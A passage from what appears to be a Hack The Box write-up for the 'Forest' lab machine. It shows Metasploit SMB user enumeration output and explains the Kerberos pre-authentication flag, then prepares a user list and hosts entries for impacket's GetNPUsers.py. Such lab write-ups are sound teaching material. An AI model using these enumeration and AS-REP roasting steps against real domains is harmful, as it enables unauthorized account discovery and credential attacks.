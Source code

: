     Module options (auxiliary/scanner/smb/smb_enumusers):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      RHOSTS     10.10.10.161     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      SMBDomain  .                no        The Windows domain to use for authentication
      SMBPass                     no        The password for the specified username
      SMBUser                     no        The username to authenticate as
      THREADS    1                yes       The number of concurrent threads

    msf5 auxiliary(scanner/smb/smb_enumusers) > run

    [+] 10.10.10.161:445      - HTB [ Administrator, Guest, krbtgt, DefaultAccount, $331000-VK4ADACQNUCA, SM_2c8eef0a09b545acb, SM_ca8c2ed5bdab4dc9b, SM_75a538d3025e4db9a, SM_681f53d4942840e18, SM_1b41c9286325456bb, SM_9b69f1b9d2cc45549, SM_7c96b981967141ebb, SM_c75ee099d0a64c91b, SM_1ffab36a2f5f479cb, HealthMailboxc3d7722, HealthMailboxfc9daad, HealthMailboxc0a90c9, HealthMailbox670628e, HealthMailbox968e74d, HealthMailbox6ded678, HealthMailbox83d6781, HealthMailboxfd87238, HealthMailboxb01ac64, HealthMailbox7108a4e, HealthMailbox0659cc1, sebastien, lucinda, svc-alfresco, andy, mark, santi ] ( LockoutTries=0 PasswordMin=7 )
    [*] 10.10.10.161:         - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed


## Getting NPUsers

`UF_DONT_REQUIRE_PREAUTH`

>This bit indicates that there is no so-called pre-authentication necessary for Kerberos authentication of the account. This is only for older Kerberos client important, which need to login to the domain from foreign systems and which does not support Kerberos pre-authentication. For accounts that log on from a Windows machine, or just for machine accounts of Windows domain members, this flag flag should NEVER be set, for the pre-authentication prevents certain types of dictionary attacks on the Kerberos login.

We create a file with the users.

    :::text
    cat users.txt
    sebastien
    lucinda
    svc-alfresco
    andy
    mark
    santi

In order to use [impacket's](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) `GetNPUsers.py`
we need to add an entry in our `/etc/hosts`.

    :::text
    cat /etc/hosts
    127.0.0.1	localhost
    127.0.1.1	kalili
    10.10.10.161	htb.local
    10.10.10.161	forest.htb.local
